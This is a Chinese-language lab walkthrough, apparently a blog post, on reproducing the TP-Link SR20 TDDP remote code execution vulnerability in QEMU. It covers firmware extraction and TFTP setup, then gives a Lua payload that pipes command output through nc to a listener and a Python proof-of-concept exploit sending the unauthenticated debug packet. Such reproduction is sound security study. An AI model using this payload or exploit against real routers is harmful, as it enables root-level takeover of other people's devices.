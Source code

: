

# 用qemu搭建复现TP-Link SR20本地网络远程代码执行漏洞

## 漏洞简介

### tddp协议

tddp协议是一个TP-Link申请过专利的调试协议基于udp协议，有v1，v2两个版本，基于 UDP 运行在 1040 端口，TP-Link SR20 设备运行了 V1 版本的 TDDP 协议，V1 版本无需认证，只需往 SR20 设备的 UDP 1040 端口发送数据，且数据的第二字节为 0x31 时，SR20 设备会连接发送该请求设备的 TFTP 服务下载相应的文件并使用 LUA 解释器以 root 权限来执行，这就导致存在远程代码执行漏洞。可以从从[官网](https://www.tp-link.com/us/support/download/sr20/#Firmware)下载存在漏洞的v1-180518版本固件”SR20(US)_V1_180518.zip”

![image-20210128221412873](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128221412873.png)

## 复现环境搭建

### 工具环境（基于Ubuntu 18.04）

**QEMU**

Qemu 是纯以GPL许可证分发源码的模拟处理器，在GNU/Linux平台上使用广泛。几乎可以模拟任何硬件设备。

采用apt方式安装

```
sudo apt-get install qemu  #包含qemu-mips-static，qemu-mipsel-static,qemu-arm-static等
sudo apt-get install qemu-user-static  #system mode，包含qemu-system-mips，qemu-system-mipsel,qemu-system-arm等
sudo apt-get install qemu-system
```

在https://people.debian.org/~aurel32/qemu/armhf/下载对应的文件，这路由器的架构是基于arm的。

![image-20210128224449422](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128224449422.png)



**binwalk**

binwalk的安装不再赘述，网上很多教程，但是建议采用从github下载源码构建，apt-get install binwalk安装的可能无法正常使用（版本问题）

https://github.com/ReFirmLabs/binwalk/blob/master/INSTALL.md 参考官方安装教程

### qemu虚拟机漏洞环境

使用binwalk -e 命令解开固件包，进入解开的文件夹，squashfs-root即使我们需要的文件系统

```
binwalk -e tpra_sr20v1_us-up-ver1-2-1-P522_20180518-rel77140_2018-05-21_08.42.04.bin
```

![image-20210128225453652](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128225453652.png)

我个人常用的qemu虚拟机网络配置（与外界通信）有两种，一种是桥接网络，一种是NAT型，下边配置一下nat型

```
sudo tunctl -t tap0 -u `whoami`  # 为了与 QEMU 虚拟机通信，添加一个虚拟网卡
sudo ifconfig tap0 10.10.10.1/24 # 为添加的虚拟网卡配置 IP 地址
qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2 console=ttyAMA0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic
```

等待虚拟机启动，过程比其他镜像启动的要慢一些，耐心等待，用户名和密码都是root

![image-20210128230258916](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128230258916.png)



此时登陆进去的虚拟机还没有ip分配，需要手动配置，然后qemu虚拟机就可以和宿主机通信了，可以尝试ping 一下接口 10.10.10.1看是否成功

```
ifconfig eth0 10.10.10.2/24
```

然后qemu虚拟机就可以和宿主机通信了，尝试ping 一下接口 10.10.10.1看是否成功

![image-20210128231021472](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128231021472.png)

在宿主机使用scp命令将squashfs-root整个目录传入qemu虚拟机中

```
scp -r squashfs-root/ root@10.10.10.2:/root/
```

![image-20210128230935570](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128230935570.png)



使用chroot切换根目录，使用 chroot 后，系统读取的是新根下的目录和文件，也就是固件的目录和文件 chroot 默认不会切换 /dev 和 /proc, 因此切换根目录前需要现挂载这两个目录

```
mount -o bind /dev ./squashfs-root/dev/
mount -t proc /proc/ ./squashfs-root/proc/
chroot squashfs-root sh # 切换根目录后执行新目录结构下的 sh shell
```

![image-20210128231300870](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128231300870.png)



### 宿主机搭建 TFTP Server

在宿主机输入如下命令

```
sudo apt install atftpd
```

编辑 `/etc/default/atftpd` 文件，`USE_INETD=true` 改为 `USE_INETD=false` ，修改 `/srv/tftp` 为 `/tftpboot`

最终 `/etc/default/atftpd` 文件内容如图

![image-20210128232508079](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128232508079.png)

随后在宿主机根目录下执行

```
mkdir /tftpboot   #创建目录，对应配置文件夹
chmod 777 /tftpboot   #改权限
sudo systemctl start atftpd # 启动 atftpd
sudo systemctl status atftpd  #查看tftp状态
*****************************************************************************
*如果执行命令 sudo systemctl status atftpd 查看 atftpd 服务状态时                *
*                                                                           *
*提示 atftpd: can't bind port :69/udp 无法绑定端口                             *
*                                                                           *
*可以执行 sudo systemctl stop inetutils-inetd.service 停用 inetutils-inetd 服务*
*                                                                           *
*再执行 sudo systemctl restart atftpd 重新启动 atftpd 即可正常运行 atftpd        *
*****************************************************************************
```

![image-20210128232850188](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128232850188.png)



此时所有环境就已经搭建完成了



## 漏洞复现过程

在 atftp 的根目录 `/tftpboot` 下写入 payload 文件，内容如下

```
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```

![image-20210128233604977](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128233604977.png)

宿主机写入EXP

```
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```

等待一切就绪之后，准备突破复现！！！！

**重现步骤为：**

1. QEMU 虚拟机中启动 tddp 程序

2. 宿主机使用 NC 监听端口

3. 执行 POC，获取命令执行结果

   

![image-20210128234944490](TP-Link-SR20本地网络远程代码执行漏洞.assets/image-20210128234944490.png)





## 最后

qemu是一个固件模拟神器，当遇到FAT工具包（ firmware-analysis-toolkit ）仿真不了的固件（文件系统），可以尝试根据系统架构等信息用qemu去模拟，当然，不总是一帆风顺的，会有很多坑要去踩，需要做的就是填平它们！！





